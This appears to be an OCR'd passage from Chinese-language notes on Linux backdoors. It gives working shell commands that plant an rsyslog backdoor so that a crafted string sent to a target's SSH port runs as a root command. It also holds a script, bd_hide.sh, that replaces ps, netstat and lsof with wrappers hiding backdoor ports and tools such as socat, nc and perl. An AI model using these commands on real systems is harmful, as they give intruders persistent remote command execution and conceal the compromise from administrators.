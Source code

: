 > **RSYSLOG**

LISTEN:

```bash
man -a rsyslogd syslog|perl -pe'print "auth.* ^/bin/atg "if$.==177;print"#"' > /etc/rsyslog.d/README.conf
echo -e '#!/bin/sh\nsh -c "$1"'>/bin/atg
chmod 755 /bin/atg
/etc/init.d/rsyslog restart
```

EXECUTE:

```echo "';whoami>/tmp/rsyslogd.owned;'"| socat STDIO TCP4:<target ip>:22```



### 16. 待研究后门

* Ebury SSH Rootkit
* 

###脚本附件一(生成文本格式)

> 篡改命令，已隐藏后门信息(防止被发现)

bd_hide.sh

```shell
#!/bin/bash

#ps
#------------------------
touch /usr/local/bin/ps

cat <<EOF >> /usr/local/bin/ps	
#!/bin/bash
/bin/ps \$@ | grep -Ev '11277|3177|1177|1377|1277|19526|socat|LEGO|nc|perl'
EOF

chmod +x /usr/local/bin/ps

#netstat
#------------------------
touch /usr/local/bin/netstat

cat <<EOF >> /usr/local/bin/netstat
#!/bin/bash
/bin/netstat \$@ | grep -Ev '11277|3177|1177|1377|1277|19526|socat|LEGO|nc|perl'
EOF

chmod +x /usr/local/bin/netstat

#lsof
#------------------------
touch /usr/local/bin/lsof

cat <<EOF >> /usr/local/bin/lsof
#!/bin/bash
/usr/bin/lsof \$@ | grep -Ev '11277|3177|1177|1377|1277|19526|socat|LEGO|nc|perl'
EOF

chmod +x /usr/local/bin/lsof
```
